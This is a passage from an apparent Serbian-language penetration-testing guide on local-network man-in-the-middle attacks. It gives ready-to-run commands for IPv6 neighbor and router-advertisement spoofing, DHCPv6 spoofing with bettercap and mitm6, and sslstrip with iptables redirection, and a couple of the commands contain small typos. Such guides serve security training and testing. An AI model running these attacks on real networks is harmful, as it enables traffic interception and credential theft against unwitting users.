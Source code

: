 ### [Lažiranje SSDP i UPnP uređaja](spoofing-ssdp-and-upnp-devices.md)

Možete ponuditi različite usluge u mreži kako biste **prevarili korisnika** da unese neke **plain-text kredencijale**. **Više informacija o ovom napadu u** [**Lažiranje SSDP i UPnP uređaja**](spoofing-ssdp-and-upnp-devices.md)**.**

### Lažiranje IPv6 Neighbor

Ovaj napad je veoma sličan ARP lažiranju, ali u svetu IPv6. Možete naterati žrtvu da pomisli da je IPv6 GW ima MAC adresu napadača.

```bash
sudo parasite6 -l eth0 # This option will respond to every requests spoofing the address that was requested
sudo fake_advertise6 -r -w 2 eth0 <Router_IPv6> #This option will send the Neighbor Advertisement packet every 2 seconds
```

### IPv6 Spoofovanje/Floodovanje Oglašavanja Rutera

Neke operativne sisteme podrazumevano konfigurišu podrazumevanu rutu na osnovu paketa za oglašavanje rutera (RA) poslatih u mreži. Da biste sebe proglasili kao IPv6 ruter, možete koristiti:

```bash
sysctl -w net.ipv6.conf.all.forwarding=1 4
ip route add default via <ROUTER_IPv6> dev wlan0
fake_router6 wlan0 fe80::01/16
```

### IPv6 DHCP spoofing

Podrazumevano, neki operativni sistemi pokušavaju da konfigurišu DNS čitajući DHCPv6 paket u mreži. Zatim, napadač može poslati DHCPv6 paket da se konfiguriše kao DNS. DHCP takođe pruža IPv6 adresu žrtvi.

```bash
dhcp6.spoof on
dhcp6.spoof.domains <list of domains>

mitm6
```

### HTTP (lažna stranica i ubacivanje JS koda)

## Internet napadi

### sslStrip

Osnovno što ovaj napad radi je da, u slučaju da **korisnik** pokuša **pristupiti** HTTP stranici koja se **preusmjerava** na HTTPS verziju, **sslStrip** će **održavati** HTTP vezu sa **klijentom** i HTTPS vezu sa **serverom**, tako da će moći **presresti** vezu u **čistom tekstu**.

```bash
apt-get install sslstrip
sslstrip -w /tmp/sslstrip.log --all - l 10000 -f -k
#iptables --flush
#iptables --flush -t nat
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
iptables -A INPUT -p tcp --destination-port 10000 -j ACCEPT
```
